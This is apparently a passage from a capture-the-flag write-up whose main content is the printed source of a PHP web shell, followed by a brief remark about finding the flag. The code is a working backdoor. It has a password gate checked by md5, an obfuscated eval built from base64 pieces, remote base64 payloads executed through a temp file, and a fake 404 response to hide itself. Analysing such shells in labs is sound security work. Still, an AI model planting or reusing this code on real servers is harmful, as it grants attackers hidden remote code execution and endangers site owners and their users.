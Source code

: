 ```
');}$need = '<'.'?'.'php'; if (strpos($code, $need) === false) { die('get failed'); } $file_name = tmpfile(); fwrite($file_name, $code); $a = stream_get_meta_data($file_name);$file_path = $a['uri']; $content = @file_get_contents($file_path);if(!$content){$file_path = '.c'; file_put_contents($file_path, $code);}@require($file_path); fclose($file_name);@unlink($file_path);die(); }
if (isset($_REQUEST['d_time'])){ die('{->'.$L7CRgr.'<-}'); }
$pass = false;
if (isset($_COOKIE['pass'])) { if(md5($_COOKIE['pass']) == $L7CRgr) { $pass = true; } } else { if (isset($_POST['pass'])) { if(md5($_POST['pass']) == $L7CRgr) { setcookie("pass", $_POST['pass']); $pass = true; } } }
if (isset($_POST['logout']) && $_POST['logout'] = 1) { setcookie("pass", null); $pass= false; }
if(isset($_REQUEST['pwd163']) && md5($_REQUEST['pwd163']) == $L7CRgr) {
    $a = base64_decode(rawurldecode((urlencode(urldecode($_REQUEST['zzz'])))));
    $need = base64_decode("PD9waHA=");
    if (strpos($a, $need) === false) { $a = $need . PHP_EOL . $a; }
    if (isset($_REQUEST['e'])){ $a = str_replace($need, "", $a); $b = 'e'.base64_decode("dmE=").'l'; $b($a);die(); }
    $file_name = tmpfile(); fwrite($file_name, $a);
    $require_params = stream_get_meta_data($file_name);
    @require($require_params['uri']);
    fclose($file_name);die(); }
if (isset($_REQUEST['auth_key'])){ die($L7CRgr); } if (!$pass) { if(!isset($_REQUEST['520'])) { header("HTTP/1.1 404 Not Found"); die();} echo '<form action="#" method="post"><input type="password" name="pass" > <input type="submit" value="submit"></form>'; die(); }
```
If you search for the flag using the format "r00t" the flag will be displayed. This was super easy

Until next time nerds!

![out](https://github.com/k4p3re/k4p3re.github.io/assets/49836387/75122a67-9097-477f-b027-53710d8c1344)
